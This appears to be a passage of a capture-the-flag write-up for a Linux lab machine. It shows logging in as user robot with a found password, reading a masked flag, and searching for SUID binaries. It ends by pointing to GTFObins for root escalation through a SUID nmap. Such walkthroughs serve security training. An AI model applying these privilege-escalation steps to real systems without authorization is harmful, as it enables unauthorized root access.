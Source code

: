 - credentials: robot:abcdefghijklmnopqrstuvwxyz

### Catch the user-flag

```
daemon@linux:/home/robot$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
robot@linux:~$ 
```

## Root-flag

```
robot@linux:/$ sudo -l
sudo -l
[sudo] password for robot: abcdefghijklmnopqrstuvwxyz

Sorry, user robot may not run sudo on linux.
robot@linux:/$ 
```
- no permission for sudo

```
robot@linux:/usr/local/bin$ find / -perm -4000 2>/dev/null
find / -perm -4000 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
robot@linux:/usr/local/bin$ 
```
- searching for SUID-bit -> */usr/local/bin/nmap* looks promising

### Using `nmap` to promote to root
- [GTFObins](https://gtfobins.github.io/gtfobins/nmap/)
